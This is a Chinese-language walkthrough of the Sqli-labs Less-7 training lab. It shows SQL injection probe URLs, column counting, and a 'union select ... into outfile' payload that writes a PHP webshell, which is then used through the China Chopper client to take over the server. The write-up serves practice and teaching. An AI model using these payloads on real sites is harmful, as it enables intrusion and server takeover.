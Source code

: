 
# Sqli-labs-Less-7
![](https://img-blog.csdnimg.cn/20200723105632916.png#crop=0&crop=0&crop=1&crop=1&id=PEFJu&originHeight=129&originWidth=1083&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**查看是否存在注入**<br />当我们使用?id=1时也没有报错，并显示You are in.... Use outfile......提示我们使用outfile函数来进行注入<br />![](https://img-blog.csdnimg.cn/20200717111556356.png#crop=0&crop=0&crop=1&crop=1&id=xzXMH&originHeight=140&originWidth=537&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

当我们使用?id=1'和?id=1')报错,不过当我们注释掉时继续报错，说明还是不对<br />![](https://img-blog.csdnimg.cn/20200717111925296.png#crop=0&crop=0&crop=1&crop=1&id=bUhzr&originHeight=149&originWidth=479&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

当我们使用?id=1'))报错,不过当我们注释掉时返回正确，说明此处存在注入点<br />![](https://img-blog.csdnimg.cn/20200717112022962.png#crop=0&crop=0&crop=1&crop=1&id=D2Bdu&originHeight=119&originWidth=417&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看有多少列**<br />http://www.web.com/sql/Less-7/?id=1')) order by 3--+  返回正确，说明有三列<br />![](https://img-blog.csdnimg.cn/20200717112611220.png#crop=0&crop=0&crop=1&crop=1&id=NMbYt&originHeight=130&originWidth=510&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**使用一句话木马**<br />因为我们注入的最终目的是拿到最大权限，在这里使用into outfile 将一句话木马写入并使用中国菜刀连接。<br />http://www.web.com/sql/Less-7/?id=1')) union select 1,2,'' into outfile 'D:\wamp\www\sql\Less-7\text1.php'--+<br />![](https://img-blog.csdnimg.cn/20200717113047739.png#crop=0&crop=0&crop=1&crop=1&id=Gybwq&originHeight=145&originWidth=946&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
返回错误，但是我们在目录中看文件已经被写入到目录中<br />![](https://img-blog.csdnimg.cn/20200717113135516.png#crop=0&crop=0&crop=1&crop=1&id=qrT9s&originHeight=138&originWidth=397&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**使用中国菜刀连接**<br />![](https://img-blog.csdnimg.cn/2020071711341220.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=MMEPu&originHeight=387&originWidth=631&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**添加成功**<br />![](https://img-blog.csdnimg.cn/20200717113453842.png#crop=0&crop=0&crop=1&crop=1&id=BThob&originHeight=65&originWidth=992&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**双击拿到权限**<br />![](https://img-blog.csdnimg.cn/2020071711360070.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=gGP6W&originHeight=532&originWidth=1598&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
攻击完成。

**在此我测试能否使用布尔盲注，测试成功，不过无法使用burp进行破解，需要自己进行盲猜。效率较慢。**<br />注意：<br />在Sqli-labs-Less-5中是?id=1’<br />在Sqli-labs-Less-7中是?id=1'))
布尔盲注连接：[https://www.yuque.com/xmtxsec/blog/atpffg](https://www.yuque.com/xmtxsec/blog/atpffg)
